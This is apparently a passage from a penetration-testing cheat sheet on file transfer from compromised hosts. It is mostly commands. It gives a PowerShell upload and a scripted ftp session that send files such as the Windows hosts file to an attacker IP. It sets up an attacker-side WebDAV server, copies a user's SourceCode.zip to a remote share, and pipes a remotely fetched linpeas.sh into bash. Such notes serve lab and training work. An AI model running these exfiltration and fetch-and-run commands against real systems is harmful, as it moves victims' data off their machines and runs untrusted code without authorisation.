 Target:

{% code title="Powershell" %}
```powershell
(New-Object Net.WebClient).UploadFile('ftp://<ip>/ftp-hosts', 'C:\Path\to\File')
```
{% endcode %}

{% code title="CMD" %}
```
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt

ftp> open 192.168.49.128

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```
{% endcode %}

### Webdav (If port 445 restrictions present)

Attcker:

```bash
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```

target:

{% code title="The DavWWWRoot is required in windows" %}
```powershell
dir \\192.168.49.128\DavWWWRoot
```
{% endcode %}

{% code title="To upload" %}
```
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
```
{% endcode %}

## Linux

### If no write permissions:

```bash
curl 10.10.14.22/linpeas.sh | bash
```
